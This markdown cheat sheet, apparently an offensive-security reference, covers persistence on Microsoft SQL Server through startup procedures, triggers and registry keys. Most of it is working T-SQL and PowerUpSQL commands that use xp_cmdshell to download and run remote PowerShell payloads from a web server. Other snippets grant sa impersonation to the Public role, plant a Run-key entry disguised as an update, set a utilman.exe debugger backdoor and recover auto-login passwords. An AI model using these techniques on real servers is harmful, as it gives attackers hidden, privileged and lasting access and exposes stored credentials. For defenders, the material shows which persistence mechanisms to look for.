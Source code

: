 # Startup stored procedures

* sysadmin privileges are required to mark proc for automated execution
* owned only by sa
* must be in the master database
* cannot have input or output parameters
* gets executed with sysadmin privileges
* executed when SQL Server restart

> https://technet.microsoft.com/en-us/library/ms191129(v=sql.105).aspx

Create:
```
USE master
GO

CREATE PROCEDURE sp_autops
AS
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')"'
GO
```

```
EXEC sp_procoption @ProcName = 'sp_autops', @OptionName = 'startup', @OptionValue = 'on';
```

List:
```
SELECT [name] FROM sysobjects WHERE type = 'P' AND OBJECTPROPERTY(id, 'ExecIsStartUp') = 1;
```

> https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-procoption-transact-sql
> https://blog.netspi.com/sql-server-persistence-part-1-startup-stored-procedures/

# Triggers

> https://docs.microsoft.com/en-us/sql/t-sql/statements/create-trigger-transact-sql

## Data Definition Language (DDL) Triggers

* Execute under the context of the user that calls the trigger

```
CREATE Trigger [persistence_ddl_1]
ON ALL Server -- or DATABASE
FOR DDL_LOGIN_EVENTS -- See the docs below for events and event groups
AS
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')"
'
GO
```

> https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/
> https://docs.microsoft.com/en-us/sql/relational-databases/triggers/implement-ddl-triggers
> https://docs.microsoft.com/en-us/sql/relational-databases/triggers/ddl-event-groups

## Data Manipulation Language (DML) Triggers

* Execute under the context of the user that calls the trigger
* User should have privilages to do the task in the trigger


```
USE master
GRANT IMPERSONATE ON LOGIN::sa to [Public];
USE testdb
CREATE TRIGGER [persistence_dml_1]
ON testdb.dbo.datatable
FOR INSERT, UPDATE, DELETE AS
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')"'
GO
```

> https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/
> https://docs.microsoft.com/en-us/sql/relational-databases/triggers/create-dml-triggers

## Logon Triggers

* Ideal for triggering with a logon failure of a low-privilege user.

```
CREATE Trigger [persistence_logon_1]
ON ALL SERVER WITH EXECUTE AS 'sa'
FOR LOGON
AS
BEGIN
IF ORIGINAL_LOGIN() = 'testuser'
EXEC master..xp_cmdshell 'powershell -C "iex (new-object
System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')"
'
END;
```

List all Triggers
```
SELECT * FROM sys.server_triggers
```

```
Get-SQLTriggerDdl -Instance instance -username sa -Password pw -Verbose
```

> https://docs.microsoft.com/en-us/sql/relational-databases/triggers/logon-triggers

# Registry keys

## `xp_regwrite`

* Needs sysadmin

```
EXEC xp_regwrite
@rootkey = 'HKEY_LOCAL_MACHINE',
@key = 'Software\Microsoft\Windows\CurrentVersion\Run',
@value_name = 'SQLServerUpdate',
@type = 'REG_SZ',
@value = 'powershell -w 1 -NoP -NoL iex(New-Object Net.WebClient).DownloadString("http://webserver/evil.ps1")'
```

```
Get-SQLPersistRegDebugger -Instance instance -username sa -Password pw -FileName utilman.exe -Command 'c:\windows\system32\cmd.exe' -Verbose
```

```
Get-SQLPersistRegRun -Instance instance -username sa -Password pw -Name SQLUpdate -Command 'powershell -w 1 -NoP -NoL iex(New-Object Net.WebClient).DownloadString("http://webserver/evil.ps1")' -Verbose
```

##`xp_regread`

* Limited read for public role

```
DECLARE @Reg_Value VARCHAR(1000)
EXECUTE xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\CurrentVersion',‘ProductName',
@Reg_Value OUTPUT
SELECT @Reg_Value
```

Read auto-login password:
```
Get-SQLRecoverPwAutoLogon -Instance instance -username sa -Password pw -Verbose
```

> https://blog.netspi.com/get-windows-auto-login-passwords-via-sql-server-powerupsql/
##`xp_regdeletekey` - Needs sysadmin

> https://support.microsoft.com/en-us/help/887165/bug-you-may-receive-an-access-is-denied-error-message-when-a-query-cal
